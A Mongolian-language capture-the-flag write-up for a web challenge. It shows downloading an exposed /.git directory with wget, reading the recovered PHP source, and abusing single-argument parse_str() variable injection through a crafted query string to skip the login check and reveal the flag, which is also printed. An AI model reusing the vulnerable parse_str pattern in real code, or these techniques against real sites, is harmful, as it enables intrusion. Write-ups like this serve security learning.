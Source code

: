 # Алдаатай API
**Category:** Web
**Points:** 1000
**Description:**

Шинэхэн инженерт API бичих ажил ноогдов

http://218.100.84.106:8011


## Write-up
Вебийн `/robots.txt` файл руу орж үзвэл:

```
User-agent: *
Disallow: /.git
```

`/.git`-руу орж үзвэл "Index of /.git" гээд directory доторх файлуудын жагсаалт гарч ирэв:
![index-of-git](index-of-git.png)

Энэ directory доторх бүх файлуудыг татаж авъя:
```sh
wget --execute="robots=off" --mirror --no-parent http://218.100.84.106:8011/.git/
```

Одоо `.git` агуулсан directory-руу орж `gitk .` гэсэн коммандыг бичиж git-н түүхийг харъя. Энд байгаа код одоо ажиллаж буй код байх өндөр магадлалтай.

```php
// index.php
<?php
require_once 'flag.php';

$res = null;
$action = null;

if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['action'])){
        $action = $res['action'];
    }
}

if ($action === 'get_user'){
    echo json_encode(
        array(
            array('id'=>1, 'user'=>'dorj', 'created_at'=>'1537259795', 'member_of'=>'superuser,hz_admin', 'access_token'=>'<*** masked ***>'),
            array('id'=>2, 'user'=>'bat', 'created_at'=>'1537259896', 'member_of'=>'user', 'access_token'=>'<*** masked ***>')
        )
    );
} elseif ($action === 'login_user') {
    $user = $res['user'];
    $access_token = $res['access_token'];

    if (!empty($user) && !empty($pass)) {
        $hashed_token = hash('md5', $user.$access_token);
    }
    if (!empty($hashed_token) && $hashed_token === '7a6e40e23f8ed20b9e54a47d2cb67ba5') {
        echo $flag;
    } else {
        echo 'False token!';
    }
} else {
    echo json_encode(array('action_list'=>array('get_user', 'login_user')));
}
```

Шинэхэн инженер маань `parse_str()` функцын ажиллагааг буруу ойлгосон бололтой, алдаатай ашигласан байна. `parse_str($query)`-ээс дараах утгуудыг гаргаж чадвал flag-руу хандах нь ээ:
```
$action = "login_user"
$hashed_token = "7a6e40e23f8ed20b9e54a47d2cb67ba5"
```

Ингээд `/?action=login_user&hashed_token=7a6e40e23f8ed20b9e54a47d2cb67ba5` гэж вебийг дуудсанаар зорилтондоо хүрлээ:

```
hz{2ead56d93095f15ad3fbee9fb0054d28}
```

*Тайлбар: Тэмцээний дараа шийдлийг бодож олсон*
